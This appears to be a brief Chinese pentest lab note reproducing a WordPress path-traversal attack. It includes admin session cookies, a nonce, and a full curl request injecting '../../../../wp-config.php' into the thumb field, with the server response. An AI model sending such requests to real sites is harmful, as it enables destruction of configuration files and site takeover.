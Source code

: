 登陆后台，在上传图片处。

![](http://opmi2ydgh.bkt.clouddn.com//18-6-28/38508483.jpg)

![](http://opmi2ydgh.bkt.clouddn.com//18-6-28/94878995.jpg)

然后 edit。

![](http://opmi2ydgh.bkt.clouddn.com//18-6-28/17223918.jpg)

![](http://opmi2ydgh.bkt.clouddn.com//18-6-28/19265580.jpg)

setThumbToConfig('5','15674852ce')

15674852ce

wordpress_545eb34dbe34d45133a1144980b6420a=admin%7C1530557799%7CkcziMOkFc2vgz438WlciwwcHAa0E8vwNaomgS1LQc6y%7C225d0e7e8cd972694c91ac26fed2c53ec66c1c68b1d9ccf569bae2b339c94ce0; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_545eb34dbe34d45133a1144980b6420a=admin%7C1530557799%7CkcziMOkFc2vgz438WlciwwcHAa0E8vwNaomgS1LQc6y%7Cbc7998bd236a149fec254d82bb97e066750b5af74a1f2336e1689b572a9ec6ac; wp-settings-time-1=1530394704

MacBook-Pro:pen_doc lebor$ curl -v 'http://192.168.2.153/wordpress496/wp-admin/post.php?post=5' -H 'Cookie:wordpress_545eb34dbe34d45133a1144980b6420a=admin%7C1530557799%7CkcziMOkFc2vgz438WlciwwcHAa0E8vwNaomgS1LQc6y%7C225d0e7e8cd972694c91ac26fed2c53ec66c1c68b1d9ccf569bae2b339c94ce0; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_545eb34dbe34d45133a1144980b6420a=admin%7C1530557799%7CkcziMOkFc2vgz438WlciwwcHAa0E8vwNaomgS1LQc6y%7Cbc7998bd236a149fec254d82bb97e066750b5af74a1f2336e1689b572a9ec6ac; wp-settings-time-1=1530394704' -d 'action=editattachment&_wpnonce=15674852ce&thumb=../../../../wp-config.php'  
*   Trying 192.168.2.153...  
*   TCP_NODELAY set  
*   Connected to 192.168.2.153 (192.168.2.153) port 80 (#0)  
> POST /wordpress496/wp-admin/post.php?post=5 HTTP/1.1  
> Host: 192.168.2.153  
> User-Agent: curl/7.54.0  
> Accept: */*  
> Cookie:wordpress_545eb34dbe34d45133a1144980b6420a=admin%7C1530557799%7CkcziMOkFc2vgz438WlciwwcHAa0E8vwNaomgS1LQc6y%7C225d0e7e8cd972694c91ac26fed2c53ec66c1c68b1d9ccf569bae2b339c94ce0; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_545eb34dbe34d45133a1144980b6420a=admin%7C1530557799%7CkcziMOkFc2vgz438WlciwwcHAa0E8vwNaomgS1LQc6y%7Cbc7998bd236a149fec254d82bb97e066750b5af74a1f2336e1689b572a9ec6ac; wp-settings-time-1=1530394704  
> Content-Length: 73  
> Content-Type: application/x-www-form-urlencoded  
>
> * upload completely sent off: 73 out of 73 bytes  
>   < HTTP/1.1 302 Found  
>   < Date: Sat, 30 Jun 2018 21:45:23 GMT  
>   < Server: Apache/2.4.23 (Win32) OpenSSL/1.0.2j PHP/5.4.45  
>   < X-Powered-By: PHP/5.4.45  
>   < Expires: Wed, 11 Jan 1984 05:00:00 GMT  
>   < Cache-Control: no-cache, must-revalidate, max-age=0  
>   < X-Frame-Options: SAMEORIGIN  
>   < Referrer-Policy: strict-origin-when-cross-origin  
>   < Location: http://192.168.2.153/wordpress496/wp-admin/post.php?post=5&action=edit&message=4  
>   < Content-Length: 0  
>   < Content-Type: text/html  
>   ​
